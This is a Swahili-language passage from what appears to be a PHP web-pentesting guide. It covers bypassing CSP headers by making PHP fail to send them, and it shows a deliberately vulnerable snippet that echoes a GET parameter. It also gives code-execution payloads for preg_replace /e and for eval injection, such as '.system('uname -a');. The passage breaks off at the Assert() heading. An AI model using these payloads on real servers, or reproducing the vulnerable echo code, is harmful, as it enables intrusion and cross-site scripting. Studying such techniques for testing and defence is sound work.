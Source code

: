 #### Causing error after setting headers

Kutoka [**hii thread ya twitter**](https://twitter.com/pilvar222/status/1784618120902005070?t=xYn7KdyIvnNOlkVaGbgL6A\&s=19) unaweza kuona kwamba kutuma zaidi ya 1000 GET params au 1000 POST params au faili 20, PHP haitakuwa ikipanga vichwa katika jibu.

Inaruhusu kupita kwa mfano vichwa vya CSP vinavyopangwa katika misimbo kama:
```php
<?php
header("Content-Security-Policy: default-src 'none';");
if (isset($_GET["xss"])) echo $_GET["xss"];
```
#### Kujaza mwili kabla ya kuweka vichwa

Ikiwa **ukurasa wa PHP unachapisha makosa na kurudisha baadhi ya maelezo yaliyotolewa na mtumiaji**, mtumiaji anaweza kufanya seva ya PHP irudishe **maudhui marefu** kiasi kwamba inapojaribu **kuongeza vichwa** kwenye jibu, seva itatupa makosa.\
Katika hali ifuatayo, **mshambuliaji alifanya seva itupe makosa makubwa**, na kama unavyoona kwenye skrini wakati php ilijaribu **kubadilisha taarifa za kichwa, haikuweza** (kwa hivyo kwa mfano kichwa cha CSP hakikutumwa kwa mtumiaji):

![](<../../../.gitbook/assets/image (1085).png>)

## SSRF katika kazi za PHP

Angalia ukurasa:

{% content-ref url="php-ssrf.md" %}
[php-ssrf.md](php-ssrf.md)
{% endcontent-ref %}

## Utekelezaji wa msimbo

**system("ls");**\
**\`ls\`;**\
**shell\_exec("ls");**

[Angalia hii kwa kazi za PHP zenye manufaa zaidi](php-useful-functions-disable\_functions-open\_basedir-bypass/)

### **RCE kupitia** **preg\_replace()**
```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```
Ili kutekeleza msimbo katika hoja ya "replace" inahitajika angalau mechi moja.\
Chaguo hili la preg\_replace limekuwa **lililopitwa na wakati tangu PHP 5.5.0.**

### **RCE kupitia Eval()**
```
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```
### **RCE kupitia Assert()**

